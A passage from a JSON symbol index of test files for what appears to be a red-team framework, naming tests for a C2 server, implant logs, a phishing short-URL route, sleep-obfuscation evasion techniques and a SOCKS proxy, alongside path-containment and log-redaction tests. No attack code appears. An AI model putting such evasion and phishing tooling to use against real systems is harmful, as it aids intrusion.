"test_executable_renders_substitutions", "signature": "def test_executable_renders_substitutions(self, cfg)"}, {"doc": "``render`` must enforce string types on inputs.", "kind": "method", "line": 242, "name": "test_rejects_non_string_template", "signature": "def test_rejects_non_string_template(self, cfg)"}, {"doc": "Exception instances yield the opaque placeholder.", "kind": "method", "line": 254, "name": "test_exception_is_replaced", "signature": "def test_exception_is_replaced(self, cfg)"}, {"doc": "Exceptions inside lists and dicts are stripped recursively.", "kind": "method", "line": 261, "name": "test_exception_nested_in_collection", "signature": "def test_exception_nested_in_collection(self, cfg)"}, {"doc": "Deeply nested structures yield the non-serialisable sentinel.", "kind": "method", "line": 267, "name": "test_recursion_is_bounded", "signature": "def test_recursion_is_bounded(self, cfg)"}, {"doc": "Collections are truncated to the configured cap.", "kind": "method", "line": 277, "name": "test_breadth_is_bounded", "signature": "def test_breadth_is_bounded(self, cfg)"}, {"doc": "Primitive types are returned unchanged.", "kind": "method", "line": 285, "name": "test_passes_through_scalars", "signature": "def test_passes_through_scalars(self, cfg)"}, {"doc": "Bytes are decoded with replacement for invalid sequences.", "kind": "method", "line": 294, "name": "test_decodes_bytes", "signature": "def test_decodes_bytes(self, cfg)"}, {"doc": "Arbitrary objects are not stringified - they become the sentinel.", "kind": "method", "line": 300, "name": "test_unknown_objects_become_sentinel", "signature": "def test_unknown_objects_become_sentinel(self, cfg)"}, {"doc": "The bundled ``payload.json`` must produce a valid configuration.", "kind": "method", "line": 314, "name": "test_real_payload_file_builds_config", "signature": "def test_real_payload_file_builds_config(self)"}, {"kind": "class", "line": 303, "name": "Custom", "signature": "class Custom"}, {"kind": "method", "line": 304, "name": "__str__", "signature": "def __str__(self)"}]}, {"doc": "Session ops command set extraction tests.  SDD contract for the session/state cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/session_ops.py``.  Stage A (pending): the new ``SessionOpsCommandSet`` subclasses ``PendingCommandSet`` so it is discovered but not registered, coexisting with the originals. Tests assert structure plus AST parity with the original methods in ``misc_migrated.py``.  Stage B (active): after the originals are deleted and the base class is flipped to ``LazyOwnCommandSet``, tests assert registry discovery, active registration eligibility, and absence of the methods in ``misc_migrated.py``.", "id": "tests/test_session_ops_command_set.py", "kind": "module", "label": "test_session_ops_command_set.py", "language": "py", "sha256": "ff465155a434af40", "symbol_count": 9, "symbols": [{"kind": "function", "line": 32, "name": "_add_repo_root_to_syspath", "signature": "def _add_repo_root_to_syspath()"}, {"doc": "Centralised constants for the session ops extraction suite.", "kind": "class", "line": 38, "name": "SessionOpsSuiteConfig", "signature": "class SessionOpsSuiteConfig"}, {"kind": "function", "line": 82, "name": "_methods_of", "signature": "def _methods_of(path, class_name)"}, {"kind": "function", "line": 94, "name": "test_target_is_active_command_set", "signature": "def test_target_is_active_command_set()"}, {"kind": "function", "line": 103, "name": "test_target_exposes_full_session_cluster", "signature": "def test_target_exposes_full_session_cluster()"}, {"kind": "function", "line": 110, "name": "test_target_phase_metadata", "signature": "def test_target_phase_metadata()"}, {"kind": "function", "line": 116, "name": "test_source_no_longer_defines_cluster", "signature": "def test_source_no_longer_defines_cluster()"}, {"kind": "function", "line": 122, "name": "test_registry_registers_target", "signature": "def test_registry_registers_target()"}, {"kind": "function", "line": 129, "name": "test_no_command_collisions_with_source", "signature": "def test_no_command_collisions_with_source()"}]}, {"doc": "Tests for cli/sessions_browser.py.  Exercises the data layer (index + preview + filter) using a temporary ``sessions/`` directory fixture. The Textual app is never instantiated.", "id": "tests/test_sessions_browser.py", "kind": "module", "label": "test_sessions_browser.py", "language": "py", "sha256": "51cff8bd0cfc579a", "symbol_count": 8, "symbols": [{"kind": "function", "line": 24, "name": "_populate", "signature": "def _populate(tmp_path)"}, {"doc": "Known filenames land in the matching categories.", "kind": "function", "line": 34, "name": "test_index_groups_known_files", "signature": "def test_index_groups_known_files(tmp_path)"}, {"doc": "Files not matched by any category fall into ``other``.", "kind": "function", "line": 47, "name": "test_index_other_bucket_contains_unmatched_files", "signature": "def test_index_other_bucket_contains_unmatched_files(tmp_path)"}, {"doc": "Text files are returned verbatim, truncated to the byte cap.", "kind": "function", "line": 56, "name": "test_preview_returns_text_for_text_files", "signature": "def test_preview_returns_text_for_text_files(tmp_path)"}, {"doc": "Binary files return the configured indicator instead of garbled bytes.", "kind": "function", "line": 64, "name": "test_preview_flags_binary_files", "signature": "def test_preview_flags_binary_files(tmp_path)"}, {"doc": "Paths that escape the root return an empty string.", "kind": "function", "line": 71, "name": "test_preview_rejects_path_traversal", "signature": "def test_preview_rejects_path_traversal(tmp_path)"}, {"doc": "The filter query narrows every category by substring.", "kind": "function", "line": 79, "name": "test_state_filter_keeps_matching_entries", "signature": "def test_state_filter_keeps_matching_entries(tmp_path)"}, {"doc": "The label resolver returns the configured human name.", "kind": "function", "line": 89, "name": "test_category_label_for_known_identifier", "signature": "def test_category_label_for_known_identifier(tmp_path)"}]}, {"doc": "Contract tests for shell-semantics detection and colored child output.  The 2026 security pass replaced ``shell=True`` with ``shlex.split`` in the generic command runners, which silently broke shell syntax (``;``, ``&&``, globs, tilde, command substitution). These tests pin the detection helper and the color-preserving environment so a future refactor cannot repeat the regression.", "id": "tests/test_shell_semantics.py", "kind": "module", "label": "test_shell_semantics.py", "language": "py", "sha256": "d2a2ce2589ff6833", "symbol_count": 10, "symbols": [{"doc": "Chaining, pipes, substitutions, globs, tilde and redirection need a shell.", "kind": "function", "line": 17, "name": "test_needs_shell_detects_control_and_expansion", "signature": "def test_needs_shell_detects_control_and_expansion()"}, {"doc": "A program with plain arguments runs without a shell.", "kind": "function", "line": 32, "name": "test_needs_shell_accepts_plain_argv", "signature": "def test_needs_shell_accepts_plain_argv()"}, {"doc": "run_command executes two chained commands, not a single argv token.", "kind": "function", "line": 38, "name": "test_run_command_interprets_semicolon", "signature": "def test_run_command_interprets_semicolon()"}, {"doc": "run_command lets the shell expand tilde and glob patterns.", "kind": "function", "line": 45, "name": "test_run_command_expands_tilde_and_glob", "signature": "def test_run_command_expands_tilde_and_glob(tmp_path, monkeypatch)"}, {"doc": "CLICOLOR_FORCE and FORCE_COLOR are set so piped tools keep color.", "kind": "function", "line": 53, "name": "test_terminal_env_forces_color", "signature": "def test_terminal_env_forces_color(monkeypatch)"}, {"doc": "An explicit NO_COLOR wins over the forced color variables.", "kind": "function", "line": 61, "name": "test_terminal_env_respects_no_color", "signature": "def test_terminal_env_respects_no_color(monkeypatch)"}, {"doc": "The linpeas HTTP server must start detached, not with a trailing ampersand.", "kind": "function", "line": 69, "name": "test_linpeas_http_server_is_detached", "signature": "def test_linpeas_http_server_is_detached(monkeypatch)"}, {"doc": "SafeRunner.run_shell must let the shell interpret chaining.", "kind": "function", "line": 87, "name": "test_safe_runner_interprets_shell_syntax", "signature": "def test_safe_runner_interprets_shell_syntax()"}, {"kind": "class", "line": 75, "name": "_FakePopen", "signature": "class _FakePopen"}, {"kind": "method", "line": 76, "name": "__init__", "signature": "def __init__(self, argv)"}]}, {"doc": "Shell/sys command set extraction tests.  SDD contract for the shell/sys cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/shellsys.py``.  Stage A (pending): the new ``ShellSysCommandSet`` subclasses ``PendingCommandSet`` so it is discovered but not registered, coexisting with the originals. Tests assert structure plus AST parity with the original methods in ``misc_migrated.py``.  Stage B (active): after the originals are deleted and the base class is flipped to ``LazyOwnCommandSet``, tests assert registry discovery, active registration eligibility, and absence of the methods in ``misc_migrated.py``.", "id": "tests/test_shellsys_command_set.py", "kind": "module", "label": "test_shellsys_command_set.py", "language": "py", "sha256": "02e6829515c29a26", "symbol_count": 9, "symbols": [{"kind": "function", "line": 32, "name": "_add_repo_root_to_syspath", "signature": "def _add_repo_root_to_syspath()"}, {"doc": "Centralised constants for the shellsys extraction suite.", "kind": "class", "line": 38, "name": "ShellsysSuiteConfig", "signature": "class ShellsysSuiteConfig"}, {"kind": "function", "line": 61, "name": "_methods_of", "signature": "def _methods_of(path, class_name)"}, {"kind": "function", "line": 73, "name": "test_target_is_active_command_set", "signature": "def test_target_is_active_command_set()"}, {"kind": "function", "line": 82, "name": "test_target_exposes_full_shellsys_cluster", "signature": "def test_target_exposes_full_shellsys_cluster()"}, {"kind": "function", "line": 89, "name": "test_target_phase_metadata", "signature": "def test_target_phase_metadata()"}, {"kind": "function", "line": 95, "name": "test_source_no_longer_defines_cluster", "signature": "def test_source_no_longer_defines_cluster()"}, {"kind": "function", "line": 101, "name": "test_registry_registers_target", "signature": "def test_registry_registers_target()"}, {"kind": "function", "line": 108, "name": "test_no_command_collisions_with_source", "signature": "def test_no_command_collisions_with_source()"}]}, {"doc": "Containment contract for short-URL file serving.  SDD contract: ``resolve_contained_file_path`` accepts a ``file://`` URL or a bare filesystem path and returns the canonical path only when it stays within the sessions base directory. Anything else (remote URLs, traversal, symlink escape, absolute paths outside the base) returns ``None`` so the ``/<short_url>`` route fails closed with 404 instead of disclosing arbitrary local files.", "id": "tests/test_short_url_file_containment.py", "kind": "module", "label": "test_short_url_file_containment.py", "language": "py", "sha256": "c0cf691073a4e11c", "symbol_count": 16, "symbols": [{"kind": "function", "line": 26, "name": "sessions_dir", "signature": "def sessions_dir(tmp_path, monkeypatch)"}, {"kind": "class", "line": 36, "name": "TestContainedPaths", "signature": "class TestContainedPaths"}, {"kind": "class", "line": 51, "name": "TestRejectedPaths", "signature": "class TestRejectedPaths"}, {"doc": "``redirect_to_file`` must let ``abort()`` propagate as HTTP status.\n\nA bare ``except Exception`` swallows ``abort(404)`` and turns it into\n500, so victims and operators cannot distinguish dead links from\nserver errors. The route must re-raise ``HTTPException``.", "kind": "class", "line": 78, "name": "TestRouteStatusContract", "signature": "class TestRouteStatusContract"}, {"doc": "The phishing blueprint ``/<short_url>`` route serves the same\nregistry as the monolith route, so it must enforce the same\ncontainment: resolve through ``resolve_contained_file_path`` and\nnever serve a raw ``abspath`` of registry input.", "kind": "class", "line": 105, "name": "TestBlueprintRouteContainment", "signature": "class TestBlueprintRouteContainment"}, {"kind": "method", "line": 37, "name": "test_bare_relative_inside_base", "signature": "def test_bare_relative_inside_base(self, sessions_dir)"}, {"kind": "method", "line": 41, "name": "test_absolute_inside_base", "signature": "def test_absolute_inside_base(self, sessions_dir)"}, {"kind": "method", "line": 45, "name": "test_file_scheme_inside_base", "signature": "def test_file_scheme_inside_base(self, sessions_dir)"}, {"kind": "method", "line": 52, "name": "test_remote_url_rejected", "signature": "def test_remote_url_rejected(self, sessions_dir)"}, {"kind": "method", "line": 55, "name": "test_absolute_outside_rejected", "signature": "def test_absolute_outside_rejected(self, sessions_dir)"}, {"kind": "method", "line": 58, "name": "test_file_scheme_outside_rejected", "signature": "def test_file_scheme_outside_rejected(self, sessions_dir)"}, {"kind": "method", "line": 61, "name": "test_traversal_rejected", "signature": "def test_traversal_rejected(self, sessions_dir)"}, {"kind": "method", "line": 64, "name": "test_symlink_escape_rejected", "signature": "def test_symlink_escape_rejected(self, sessions_dir, tmp_path)"}, {"kind": "method", "line": 74, "name": "test_empty_rejected", "signature": "def test_empty_rejected(self, sessions_dir)"}, {"kind": "method", "line": 86, "name": "test_abort_propagates", "signature": "def test_abort_propagates(self)"}, {"kind": "method", "line": 112, "name": "test_blueprint_redirect_uses_contained_resolver", "signature": "def test_blueprint_redirect_uses_contained_resolver(self)"}]}, {"doc": "Single-implementation rule for extracted helpers.  SDD contract: ``utils.*`` holds the live implementations used by the CLI/C2. The divergent copies that a past extraction left behind in ``core/parsers`` and ``core/credentials`` had zero callers and trapped future imports into the wrong behavior, so they were removed. Only ``strip_ansi`` (imported by ``utils`` and the C2 bots) stays in ``core/parsers``. This test fails the build if the dead fork grows back.", "id": "tests/test_single_implementation.py", "kind": "module", "label": "test_single_implementation.py", "language": "py", "sha256": "6b21d5a452d922d9", "symbol_count": 5, "symbols": [{"kind": "class", "line": 54, "name": "TestDeadForkRemoved", "signature": "class TestDeadForkRemoved"}, {"kind": "method", "line": 55, "name": "test_no_divergent_copies_in_core_parsers", "signature": "def test_no_divergent_copies_in_core_parsers(self)"}, {"kind": "method", "line": 59, "name": "test_no_divergent_copies_in_core_namespace", "signature": "def test_no_divergent_copies_in_core_namespace(self)"}, {"kind": "method", "line": 63, "name": "test_shared_kernel_still_available", "signature": "def test_shared_kernel_still_available(self)"}, {"kind": "method", "line": 68, "name": "test_live_utils_implementations_intact", "signature": "def test_live_utils_implementations_intact(self)"}]}, {"doc": "Tests for modules/sleep_obfuscation.py — SleepTechnique, SleepObfuscationConfig, SleepTechniqueCatalog, SleepObfuscationEngine, SleepTechniqueValidator.  Covers: - SleepTechnique dataclass construction and immutability - SleepObfuscationConfig serialization roundtrip - SleepTechniqueCatalog registration, retrieval, listing - SleepTechniqueCatalog platform filtering - SleepObfuscationEngine select/configure/validate/recommend - SleepObfuscationEngine detection_resistance computation - SleepObfuscationEngine serialization roundtrip - SleepTechniqueValidator edge cases - Default catalog composition - OsPlatform and TechniqueRisk enum values", "id": "tests/test_sleep_obfuscation.py", "kind": "module", "label": "test_sleep_obfuscation.py", "language": "py", "sha256": "084899d228b2414d", "symbol_count": 41, "symbols": [{"kind": "class", "line": 33, "name": "TestSleepTechnique", "signature": "class TestSleepTechnique"}, {"kind": "class", "line": 71, "name": "TestSleepObfuscationConfig", "signature": "class TestSleepObfuscationConfig"}, {"kind": "class", "line": 114, "name": "TestSleepTechniqueCatalog", "signature": "class TestSleepTechniqueCatalog"}, {"kind": "class", "line": 164, "name": "TestSleepTechniqueValidator", "signature": "class TestSleepTechniqueValidator"}, {"kind": "class", "line": 212, "name": "TestSleepObfuscationEngine", "signature": "class TestSleepObfuscationEngine"}, {"kind": "class", "line": 307, "name": "TestBedEnumValues", "signature": "class TestBedEnumValues"}, {"kind": "method", "line": 34, "name": "test_construction_and_properties", "signature": "def test_construction_and_properties(self)"}, {"kind": "method", "line": 48, "name": "test_defaults", "signature": "def test_defaults(self)"}, {"kind": "method", "line": 60, "name": "test_immutability", "signature": "def test_immutability(self)"}, {"kind": "method", "line": 72, "name": "test_default_construction", "signature": "def test_default_construction(self)"}, {"kind": "method", "line": 79, "name": "test_serialization_roundtrip", "signature": "def test_serialization_roundtrip(self)"}, {"kind": "method", "line": 102, "name": "test_from_dict_empty", "signature": "def test_from_dict_empty(self)"}, {"kind": "method", "line": 107, "name": "test_from_dict_partial", "signature": "def test_from_dict_partial(self)"}, {"kind": "method", "line": 115, "name": "test_default_catalog_has_techniques", "signature": "def test_default_catalog_has_techniques(self)"}, {"kind": "method", "line": 120, "name": "test_register_and_get", "signature": "def test_register_and_get(self)"}, {"kind": "method", "line": 131, "name": "test_get_missing_raises_keyerror", "signature": "def test_get_missing_raises_keyerror(self)"}, {"kind": "method", "line": 136, "name": "test_list_all_sorted_by_resistance", "signature": "def test_list_all_sorted_by_resistance(self)"}, {"kind": "method", "line": 142, "name": "test_list_by_platform_windows", "signature": "def test_list_by_platform_windows(self)"}, {"kind": "method", "line": 149, "name": "test_list_by_platform_linux", "signature": "def test_list_by_platform_linux(self)"}, {"kind": "method", "line": 156, "name": "test_list_names", "signature": "def test_list_names(self)"}, {"kind": "method", "line": 165, "name": "test_valid_config_passes", "signature": "def test_valid_config_passes(self)"}, {"kind": "method", "line": 173, "name": "test_ekko_requires_rop_gadgets", "signature": "def test_ekko_requires_rop_gadgets(self)"}, {"kind": "method", "line": 181, "name": "test_excessive_rop_gadget_count", "signature": "def test_excessive_rop_gadget_count(self)"}, {"kind": "method", "line": 189, "name": "test_negative_sleep_delay", "signature": "def test_negative_sleep_delay(self)"}, {"kind": "method", "line": 197, "name": "test_excessive_sleep_delay", "signature": "def test_excessive_sleep_delay(self)"}, {"kind": "method", "line": 205, "name": "test_validate_config_enabled_without_name", "signature": "def test_validate_config_enabled_without_name(self)"}, {"kind": "method", "line": 213, "name": "test_default_engine", "signature": "def test_default_engine(self)"}, {"kind": "method", "line": 219, "name": "test_select_existing_technique", "signature": "def test_select_existing_technique(self)"}, {"kind": "method", "line": 225, "name": "test_select_missing_technique", "signature": "def test_select_missing_technique(self)"}, {"kind": "method", "line": 230, "name": "test_configure_updates_config", "signature": "def test_configure_updates_config(self)"}, {"kind": "method", "line": 239, "name": "test_configure_without_overrides", "signature": "def test_configure_without_overrides(self)"}, {"kind": "method", "line": 246, "name": "test_validate_valid_config", "signature": "def test_validate_valid_config(self)"}, {"kind": "method", "line": 251, "name": "test_validate_unknown_technique", "signature": "def test_validate_unknown_technique(self)"}, {"kind": "method", "line": 257, "name": "test_recommend_windows", "signature": "def test_recommend_windows(self)"}, {"kind": "method", "line": 263, "name": "test_recommend_linux", "signature": "def test_recommend_linux(self)"}, {"kind": "method", "line": 270, "name": "test_to_dict", "signature": "def test_to_dict(self)"}, {"kind": "method", "line": 278, "name": "test_from_dict_roundtrip", "signature": "def test_from_dict_roundtrip(self)"}, {"kind": "method", "line": 288, "name": "test_from_dict_empty", "signature": "def test_from_dict_empty(self)"}, {"kind": "method", "line": 293, "name": "test_custom_catalog", "signature": "def test_custom_catalog(self)"}, {"kind": "method", "line": 308, "name": "test_os_platform_values", "signature": "def test_os_platform_values(self)"}, {"kind": "method", "line": 312, "name": "test_technique_risk_values", "signature": "def test_technique_risk_values(self)"}]}, {"doc": "Tests for modules/socks_proxy.py — SocksProxyConfig, SocksSession, SocksValidator, SocksProxyEngine, SocksAuthMethod, SocksCommand, SocksAddressType, SocksReply.  Covers: - SocksProxyConfig construction and serialization roundtrip - SocksSession byte counting and elapsed time - SocksValidator config validation edge cases - SocksValidator request validation with access control - SocksProxyEngine session lifecycle (create, track, expire) - SocksProxyEngine build_spec and validation - SocksProxyEngine from_dict and from_payload factories - SocksReply enum messages - Enum value assertions", "id": "tests/test_socks_proxy.py", "kind": "module", "label": "test_socks_proxy.py", "language": "py", "sha256": "9565f51751c0e359", "symbol_count": 52, "symbols": [{"kind": "class", "line": 33, "name": "TestSocksProxyConfig", "signature": "class TestSocksProxyConfig"}, {"kind": "class", "line": 84, "name": "TestSocksSession", "signature": "class TestSocksSession"}, {"kind": "class", "line": 119, "name": "TestSocksValidator", "signature": "class TestSocksValidator"}, {"kind": "class", "line": 247, "name": "TestSocksProxyEngine", "signature": "class TestSocksProxyEngine"}, {"kind": "class", "line": 359, "name": "TestSocksReply", "signature": "class TestSocksReply"}, {"kind": "class", "line": 373, "name": "TestSocksEnums", "signature": "class TestSocksEnums"}, {"kind": "method", "line": 34, "name": "test_default_construction", "signature": "def test_default_construction(self)"}, {"kind": "method", "line": 42, "name": "test_serialization_roundtrip", "signature": "def test_serialization_roundtrip(self)"}, {"kind": "method", "line": 73, "name": "test_from_dict_empty", "signature": "def test_from_dict_empty(self)"}, {"kind": "method", "line": 78, "name": "test_from_dict_unknown_auth_method_handled", "signature": "def test_from_dict_unknown_auth_method_handled(self)"}, {"kind": "method", "line": 85, "name": "test_construction_and_defaults", "signature": "def test_construction_and_defaults(self)"}, {"kind": "method", "line": 97, "name": "test_byte_counters", "signature": "def test_byte_counters(self)"}, {"kind": "method", "line": 104, "name": "test_to_dict", "signature": "def test_to_dict(self)"}, {"kind": "method", "line": 113, "name": "test_elapsed_seconds_with_zero_timestamp", "signature": "def test_elapsed_seconds_with_zero_timestamp(self)"}, {"kind": "method", "line": 120, "name": "test_valid_config_passes", "signature": "def test_valid_config_passes(self)"}, {"kind": "method", "line": 126, "name": "test_invalid_bind_address", "signature": "def test_invalid_bind_address(self)"}, {"kind": "method", "line": 132, "name": "test_invalid_bind_port", "signature": "def test_invalid_bind_port(self)"}, {"kind": "method", "line": 138, "name": "test_max_connections_zero", "signature": "def test_max_connections_zero(self)"}, {"kind": "method", "line": 144, "name": "test_session_timeout_too_low", "signature": "def test_session_timeout_too_low(self)"}, {"kind": "method", "line": 150, "name": "test_session_timeout_too_high", "signature": "def test_session_timeout_too_high(self)"}, {"kind": "method", "line": 156, "name": "test_negative_bandwidth", "signature": "def test_negative_bandwidth(self)"}, {"kind": "method", "line": 162, "name": "test_username_password_without_credentials", "signature": "def test_username_password_without_credentials(self)"}, {"kind": "method", "line": 172, "name": "test_no_auth_methods", "signature": "def test_no_auth_methods(self)"}, {"kind": "method", "line": 178, "name": "test_invalid_allowed_ports", "signature": "def test_invalid_allowed_ports(self)"}, {"kind": "method", "line": 184, "name": "test_port_in_both_lists", "signature": "def test_port_in_both_lists(self)"}, {"kind": "method", "line": 190, "name": "test_validate_request_valid_connect", "signature": "def test_validate_request_valid_connect(self)"}, {"kind": "method", "line": 201, "name": "test_validate_request_unsupported_command", "signature": "def test_validate_request_unsupported_command(self)"}, {"kind": "method", "line": 212, "name": "test_validate_request_unsupported_address_type", "signature": "def test_validate_request_unsupported_address_type(self)"}, {"kind": "method", "line": 223, "name": "test_validate_request_invalid_port", "signature": "def test_validate_request_invalid_port(self)"}, {"kind": "method", "line": 233, "name": "test_validate_request_denied_port_ac", "signature": "def test_validate_request_denied_port_ac(self, tmp_path)"}, {"kind": "method", "line": 248, "name": "test_default_engine", "signature": "def test_default_engine(self)"}, {"kind": "method", "line": 253, "name": "test_build_spec", "signature": "def test_build_spec(self)"}, {"kind": "method", "line": 260, "name": "test_create_session", "signature": "def test_create_session(self)"}, {"kind": "method", "line": 267, "name": "test_remove_session", "signature": "def test_remove_session(self)"}, {"kind": "method", "line": 273, "name": "test_remove_nonexistent_session", "signature": "def test_remove_nonexistent_session(self)"}, {"kind": "method", "line": 277, "name": "test_get_session", "signature": "def test_get_session(self)"}, {"kind": "method", "line": 284, "name": "test_get_nonexistent_session", "signature": "def test_get_nonexistent_session(self)"}, {"kind": "method", "line": 288, "name": "test_add_bytes", "signature": "def test_add_bytes(self)"}, {"kind": "method", "line": 296, "name": "test_add_bytes_to_nonexistent", "signature": "def test_add_bytes_to_nonexistent(self)"}, {"kind": "method", "line": 300, "name": "test_max_connections_limit", "signature": "def test_max_connections_limit(self)"}, {"kind": "method", "line": 309, "name": "test_cleanup_expired", "signature": "def test_cleanup_expired(self)"}, {"kind": "method", "line": 317, "name": "test_list_sessions", "signature": "def test_list_sessions(self)"}, {"kind": "method", "line": 326, "name": "test_from_dict", "signature": "def test_from_dict(self)"}, {"kind": "method", "line": 337, "name": "test_from_payload", "signature": "def test_from_payload(self)"}, {"kind": "method", "line": 348, "name": "test_from_payload_empty", "signature": "def test_from_payload_empty(self)"}, {"kind": "method", "line": 352, "name": "test_validate_custom_config", "signature": "def test_validate_custom_config(self)"}, {"kind": "method", "line": 360, "name": "test_succeeded_message", "signature": "def test_succeeded_message(self)"}, {"kind": "method", "line": 363, "name": "test_general_failure_message", "signature": "def test_general_failure_message(self)"}, {"kind": "method", "line": 366, "name": "test_unknown_code_message", "signature": "def test_unknown_code_message(self)"}, {"kind": "method", "line": 374, "name": "test_auth_method_values", "signature": "def test_auth_method_values(self)"}, {"kind": "method", "line": 379, "name": "test_command_values", "signature": "def test_command_values(self)"}, {"kind": "method", "line": 384, "name": "test_address_type_values", "signature": "def test_address_type_values(self)"}]}, {"doc": "Tests for the operator-presence segment of cli/status_bar.py.  Verifies the new :class:`CollabPresenceSource`, the optional fifth ``operators`` slot of :class:`StatusContext`, the auto-format switch in the renderer, and the toggle-by-payload behaviour of :func:`build_default_manager`.", "id": "tests/test_status_bar_operators.py", "kind": "module", "label": "test_status_bar_operators.py", "language": "py", "sha256": "9f190b3e4cee750a", "symbol_count": 9, "symbols": [{"kind": "function", "line": 28, "name": "_write_operators", "signature": "def _write_operators(tmp_path, records)"}, {"doc": "An absent operators file yields the configured fallback string.", "kind": "function", "line": 33, "name": "test_collab_presence_zero_when_file_missing", "signature": "def test_collab_presence_zero_when_file_missing(tmp_path)"}, {"doc": "Operators marked active and within the stale window are counted.", "kind": "function", "line": 41, "name": "test_collab_presence_counts_active_operators", "signature": "def test_collab_presence_counts_active_operators(tmp_path)"}, {"doc": "An empty ``operators`` segment preserves the historical layout.", "kind": "function", "line": 59, "name": "test_renderer_uses_default_format_when_operators_empty", "signature": "def test_renderer_uses_default_format_when_operators_empty()"}, {"doc": "A non-empty ``operators`` value triggers the alternate format.", "kind": "function", "line": 70, "name": "test_renderer_switches_to_ops_format_when_present", "signature": "def test_renderer_switches_to_ops_format_when_present()"}, {"doc": "The fifth source is opt-in via ``enable_operator_presence``.", "kind": "function", "line": 86, "name": "test_build_default_manager_skips_operators_by_default", "signature": "def test_build_default_manager_skips_operators_by_default(tmp_path)"}, {"doc": "The flag opts into the additional source.", "kind": "function", "line": 92, "name": "test_build_default_manager_wires_operators_when_enabled", "signature": "def test_build_default_manager_wires_operators_when_enabled(tmp_path)"}, {"doc": "Without ``tui_theme`` the prompt carries the default theme colour.", "kind": "function", "line": 99, "name": "test_render_prompt_uses_default_theme_when_unspecified", "signature": "def test_render_prompt_uses_default_theme_when_unspecified(tmp_path)"}, {"doc": "Switching ``tui_theme`` changes the ANSI prefix in the next render.", "kind": "function", "line": 107, "name": "test_render_prompt_switches_colour_with_tui_theme", "signature": "def test_render_prompt_switches_colour_with_tui_theme(tmp_path)"}]}, {"doc": "Tests for ``core.logging`` — structured JSON-lines logger.", "id": "tests/test_structured_logging.py", "kind": "module", "label": "test_structured_logging.py", "language": "py", "sha256": "5d7a185f0df7ac69", "symbol_count": 19, "symbols": [{"doc": "Behaviour of StructuredLogConfig.", "kind": "class", "line": 13, "name": "TestStructuredLogConfig", "signature": "class TestStructuredLogConfig"}, {"doc": "Behaviour of _JsonLineFormatter.", "kind": "class", "line": 47, "name": "TestJsonLineFormatter", "signature": "class TestJsonLineFormatter"}, {"doc": "Behaviour of StructuredLogger.", "kind": "class", "line": 122, "name": "TestStructuredLogger", "signature": "class TestStructuredLogger"}, {"doc": "Behaviour of get_logger and install_json_handler.", "kind": "class", "line": 144, "name": "TestGetLogger", "signature": "class TestGetLogger"}, {"doc": "Behaviour of reconfigure.", "kind": "class", "line": 193, "name": "TestReconfigure", "signature": "class TestReconfigure"}, {"doc": "Contract: install_json_handler preserves pre-existing handlers.", "kind": "class", "line": 220, "name": "TestInstallJsonHandler", "signature": "class TestInstallJsonHandler"}, {"kind": "method", "line": 16, "name": "test_defaults_are_production_ready", "signature": "def test_defaults_are_production_ready(self)"}, {"kind": "method", "line": 29, "name": "test_custom_override_preserves_other_defaults", "signature": "def test_custom_override_preserves_other_defaults(self)"}, {"kind": "method", "line": 50, "name": "test_formats_record_as_valid_json_line", "signature": "def test_formats_record_as_valid_json_line(self)"}, {"kind": "method", "line": 74, "name": "test_redacts_sensitive_extra_fields", "signature": "def test_redacts_sensitive_extra_fields(self)"}, {"kind": "method", "line": 98, "name": "test_includes_exception_traceback_when_present", "signature": "def test_includes_exception_traceback_when_present(self)"}, {"kind": "method", "line": 125, "name": "test_make_records_promote_extra_fields_onto_record", "signature": "def test_make_records_promote_extra_fields_onto_record(self)"}, {"kind": "method", "line": 147, "name": "test_first_call_creates_and_configures_logger", "signature": "def test_first_call_creates_and_configures_logger(self)"}, {"kind": "method", "line": 156, "name": "test_same_name_returns_cached_instance", "signature": "def test_same_name_returns_cached_instance(self)"}, {"kind": "method", "line": 166, "name": "test_writes_json_lines_to_file", "signature": "def test_writes_json_lines_to_file(self, tmp_path)"}, {"kind": "method", "line": 196, "name": "test_reconfigure_resets_cache_and_applies_new_config", "signature": "def test_reconfigure_resets_cache_and_applies_new_config(self, tmp_path)"}, {"kind": "method", "line": 223, "name": "test_cold_logger_gets_console_and_file_wiring", "signature": "def test_cold_logger_gets_console_and_file_wiring(self, tmp_path)"}, {"kind": "method", "line": 241, "name": "test_warm_logger_keeps_custom_handler_and_appends_json_file", "signature": "def test_warm_logger_keeps_custom_handler_and_appends_json_file(self, tmp_path)"}, {"kind": "method", "line": 260, "name": "test_second_install_is_idempotent", "signature": "def test_second_install_is_idempotent(self, tmp_path)"}]}, {"doc": "Tests for the network surface graph reader.  The reader composes the same picture that ``templates/index.html`` renders with ``vis.js`` but works from the on-disk session artefacts so it can be exercised in isolation without booting the C2 Flask server.", "id": "tests/test_surface_graph.py", "kind": "module", "label": "test_surface_graph.py", "language": "py", "sha256": "147c88e823bc4f4a", "symbol_count": 13, "symbols": [{"kind": "function", "line": 53, "name": "_write_implant_log", "signature": "def _write_implant_log(path)"}, {"kind": "function", "line": 62, "name": "_write_payload", "signature": "def _write_payload(tmp_path)"}, {"kind": "function", "line": 74, "name": "_build", "signature": "def _build(tmp_path, sessions)"}, {"kind": "function", "line": 80, "name": "sessions_dir", "signature": "def sessions_dir(tmp_path)"}, {"kind": "function", "line": 86, "name": "test_empty_sessions_still_produce_c2_root", "signature": "def test_empty_sessions_still_produce_c2_root(tmp_path, sessions_dir)"}, {"kind": "function", "line": 95, "name": "test_hostsdiscovery_populates_host_nodes", "signature": "def test_hostsdiscovery_populates_host_nodes(tmp_path, sessions_dir)"}, {"kind": "function", "line": 112, "name": "test_scan_discovery_csv_adds_ports_and_services", "signature": "def test_scan_discovery_csv_adds_ports_and_services(tmp_path, sessions_dir)"}, {"kind": "function", "line": 137, "name": "test_implant_log_creates_client_and_links_hosts", "signature": "def test_implant_log_creates_client_and_links_hosts(tmp_path, sessions_dir)"}, {"kind": "function", "line": 180, "name": "test_non_implant_logs_are_ignored", "signature": "def test_non_implant_logs_are_ignored(tmp_path, sessions_dir)"}, {"kind": "function", "line": 189, "name": "test_to_dict_round_trips_through_json", "signature": "def test_to_dict_round_trips_through_json(tmp_path, sessions_dir)"}, {"kind": "function", "line": 200, "name": "test_iter_descendants_walks_only_outgoing_edges", "signature": "def test_iter_descendants_walks_only_outgoing_edges(tmp_path, sessions_dir)"}, {"kind": "function", "line": 210, "name": "test_build_surface_graph_factory_works_without_payload_file", "signature": "def test_build_surface_graph_factory_works_without_payload_file(tmp_path, sessions_dir)"}, {"kind": "function", "line": 218, "name": 